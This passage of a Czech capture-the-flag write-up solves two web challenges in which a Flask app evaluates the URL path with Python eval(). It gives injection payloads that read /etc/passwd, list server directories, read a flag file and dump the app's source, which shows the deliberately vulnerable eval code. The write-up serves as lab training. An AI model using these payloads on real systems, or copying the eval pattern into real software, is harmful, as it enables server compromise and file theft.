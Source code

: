 Vidíme, že je jedná o skutečně jednoduchou aplikaci napsanou v Pythonu pomocí
webového frameworku [Flask](https://cs.wikipedia.org/wiki/Flask). Ale vlajka ve
zdrojáku není, pojďme tedy zkoumat systém:

* Vypsání `/etc/passwd`: `"+str(open('/etc/passwd').read())+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(open(%22/etc/passwd%22).read())+%22)
* Vylistování `/app`: `"+str(__import__("os").listdir("/app"))+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(%22/app%22))+%22)
* Vylistování `/app/FLAG/`: `"+str(__import__("os").listdir("/app/FLAG/"))+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(%22/app/FLAG/%22))+%22)
* Přečtení `/app/FLAG/flag.txt`: `"+str(open("/app/FLAG/flag.txt").read())+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(open(%22/app/FLAG/flag.txt%22).read())+%22)

Na poslední zmíněné stránce najdeme vlajku `FLAG{OONU-Pm7V-BK3s-YftK}`.

### Streamlining portal NG (4/4 body)

Bylo odemčeno po dokončení **Streamlining portal**.

> Hi, packet inspector,
>
> the AI has detected your previous breach and has improved the security
> measures. New streamlining portal is on
> <http://user-info-ng.mysterious-delivery.tcc>.
>
> Your task is to break into the improved web and find again interesting
> information on the server.
>
> May the Packet be with you!

Úloha je velmi podobná předchozí, stránka vypadá stejně, ale autor stránky nám
to trochu ztížil. Opět zkusíme stejný trik a vypíšeme si zdroják aplikace
payloadem `"+str(open(__file__).read())+"`
([odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(open(__file__).read())+%22)):

```python3
from flask import Flask, Blueprint, redirect, render_template, abort
bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user";, code=302)
```
